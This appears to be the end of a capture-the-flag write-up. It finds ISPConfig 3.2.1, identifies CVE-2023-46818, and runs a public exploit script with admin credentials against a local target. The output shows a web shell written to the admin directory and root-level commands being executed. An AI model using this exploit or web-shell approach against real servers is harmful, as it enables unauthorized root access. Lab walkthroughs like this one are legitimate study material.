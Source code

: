 Furthermore, the monitor page shows another version `version 3.2.1'
![Pasted image 20250527202256](MediaFiles/Pasted%20image%2020250527202256.png)

Next by searching ipsconfig vulnerabilities, i found this one `CVE-2023-46818`
which appears to affect ISPConfig <= 3.2.11
![Pasted image 20250527202354](MediaFiles/Pasted%20image%2020250527202354.png)

and by using this script that exploits this vulnerability: 
https://github.com/ajdumanhug/CVE-2023-46818
```shell
python3 CVE-2023-46818.py http://localhost:8080 admin slowmotionapocalypse
```
i grabbed the root flag!
```shell
└─# python3 CVE-2023-46818.py http://localhost:9000 admin slowmotionapocalypse
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Login successful!
[+] Fetching CSRF tokens...
[+] CSRF ID: language_edit_1d8e96087d21652cb7f32dc9
[+] CSRF Key: b7739948106f89f5e7d331be30036758eaab5be0
[+] Injecting shell payload...
[+] Shell written to: http://localhost:9000/admin/sh.php
[+] Launching shell...

ispconfig-shell# whoami
root

ispconfig-shell# id
uid=0(root) gid=0(root) groups=0(root)

ispconfig-shell# pwd
/usr/local/ispconfig/interface/web/admin

ispconfig-shell# cd


ispconfig-shell# pwd
/usr/local/ispconfig/interface/web/admin

ispconfig-shell# cd /root


ispconfig-shell# pwd
/usr/local/ispconfig/interface/web/admin
```